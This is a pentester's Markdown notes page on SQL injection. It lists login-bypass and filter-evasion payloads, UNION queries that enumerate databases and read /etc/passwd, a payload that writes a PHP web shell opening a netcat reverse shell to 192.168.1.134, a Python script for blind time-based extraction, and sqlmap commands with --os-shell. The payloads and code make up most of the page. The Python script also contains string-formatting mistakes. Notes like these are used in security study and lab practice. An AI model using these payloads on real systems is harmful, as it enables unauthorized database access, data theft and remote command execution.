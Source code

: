 ```yaml
---
title: Notes | SQLi
author: Zeropio
date: 2021-12-12
categories: [Notes, Vulnerabilities]
tags: [sql, injection]
permalink: /notes/vulnerabilities/sqli 
---
```



# Basic access
Maybe the database have the default login, we can try with:
```console
$ mysql -u root -h <ip>
```

---

# Basic Injection
If we can send a query to the database to log, we can do:
```sql
' or '1'='1' --
```

Probably we need to change the text to bypass filter:
```sql
aNd 1=1
aNd 21=21
orDeR bY 1
orDer+bY+1
orDer/\*\*/bY/\*\*/1
orDer%20bY%201
```
We can change the spaces by:
```sql
+, /**/, %20
```

Then we add a comment line, there are different comment for each program:
- Oracle: --
- MySQL: #
- MariaDB: /* */
Some others comment can be:
- /*
- //
- %23

> Probably, we need to add **;** at the end of the query (before the comment).
{: .prompt-tip }

Also, we can try to catch the login request with burp and send the SQLi with it.
  
---

# Error Based
When we see an SQL error in the page we can try to gather information of the web.
Adding and:
```sql
... ORDER BY 5; --
```
We can check how many rows are in the query.
> (We can change **--** to others SQL comments.)
{: .prompt-tip }

Then we can do an union with the columns:
```sql
... UNION SELECT 1,2,3,4,5;
... UNION SELECT NULL,NULL,NULL,NULL,NULL;
```

We can use to enumerate the following functions, replacing the numbers or NULL:
- database()
- user()
- load_file('/etc/password')

Now we can get the tables from the database:
```sql
... UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = "database-name";
```

Or the others databases:
```sql
... UNION SELECT schema_name,NULL FROM information_schema.schemata;
```
Some databases can limit the amount on databases show, we can try to change it with limit:
```sql
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 1,1; -- This will show the first one
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 2,1; -- This will show the second one
```

To get the columns of a table:
```sql
... UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = "database-name" AND table_name = "table-name";
```

We can use this syntax to read and write system files:
```sql
... UNION SELECT load_file('/etc/passwd'), NULL;
... UNION SELECT 'SUS', NULL into outfile '/tmp/attack.txt;
```
And then create a reverse shell:
```sql
' union select null,'<?passthru("nc -e /bin/sh 192.168.1.134 9000");?>' into outfile '/tmp/shell.php'#
```

If we can not pass a string like **"database-name"** we can encode it:
```console
$ echo "database-name" | xxd -ps
```
##### (We may remove the **0a**, and add a **0x** at the beggining.)

---

# Time Based (Blind)
We can make sleep the sql function in order to guess if the page is not displaying anything.

For example:
```sql
... 'admin' and sleep(5) --If the user is correct it will wait 5 sec 
... AND if(substr(database(),1,1)='c', sleep(5),1); --
```

We can make a Python Script:
```python
#!/usr/bin/python3

import requests, time, sys, signal
from pwn import *

url = '[your-url]'
s = '0123456789abcdefghijklmnopqrstuvwxyz'
result = ''

def def_handler(sig, frame):
	log.failure("Saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


def check(payload):
	data_post = {
		'username' : '%s' % payload,
		'password' : 'test'
	}

	time_start = time.time()
	content = requests.post(url, data=data_post)
	time_end = time.time()

	if (time_end - time_start > 5):
		return 1

p1 = log.progress('Database')
p2 = log.progress('Payload')

for i in range(0,10):
	for c in s:
		payload = "' OR if(substr(database(),%d,1)='%c', sleep(5),1); -- - % (i, c)"
		p2.status("%s" % payload)
		
		if check(payload):
			result += c
			p1.status("%s % result")
			break

log.info("Database: %s" % result)
```

We can change **database()** from the others functions in the **Error Based** to guess another values (tables, columns,...).

---

# SQLmap
We can try searching a URL with:
```console
> sqlmap -u "http://192.168.1.137/mutillidae/index.php?page=user-info.php&username=admin&password=aaaa&user-info-php-submit-button=View+Account+Details"
```

We can use the following options to get a reverse shell:
- **--os-shell**
- **--sql-shell**

With **Burp** we can capture the request and do the scan with a file with the header:
```console
> sqlmap -r req.txt
```
